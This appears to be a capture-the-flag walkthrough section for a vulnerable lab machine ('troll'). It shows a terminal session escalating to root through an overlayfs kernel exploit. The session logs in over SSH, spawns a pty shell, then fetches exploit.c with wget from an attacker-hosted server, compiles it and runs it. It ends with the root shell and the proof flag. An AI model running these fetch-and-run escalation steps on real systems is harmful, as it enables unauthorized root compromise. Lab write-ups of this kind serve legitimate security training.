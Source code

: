 ### Exploiting the Overlay-fs Vulnerability
```shell-session
┌──(elliot@kali)-[~/data/troll]
└─$ ssh overflow@192.168.225.41                                                       255 ⨯
overflow@192.168.225.41's password: 
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Fri Jun 25 00:45:13 2021 from kali
$ python -c 'import pty; pty.spawn("/bin/bash")'
overflow@troll:/$ export TERM=xterm
overflow@troll:/$ cd /tmp && wget http://192.168.225.43:8000/exploit.c && gcc exploit.c -o exploit && ./exploit
--2021-06-25 00:53:06--  http://192.168.225.43:8000/exploit.c
Connecting to 192.168.225.43:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5119 (5.0K) [text/x-csrc]
Saving to: ‘exploit.c’

100%[======================================>] 5,119       --.-K/s   in 0s      

2021-06-25 00:53:07 (371 MB/s) - ‘exploit.c’ saved [5119/5119]

spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# cd /root     	
# bash
root@troll:/root# cat /root/proof.txt 
Good job, you did it! 


702a8c18d29c6f3ca0d99ef5712bfbdc
root@troll:/root#
```

### Proof Flag
```bash
702a8c18d29c6f3ca0d99ef5712bfbdc
```
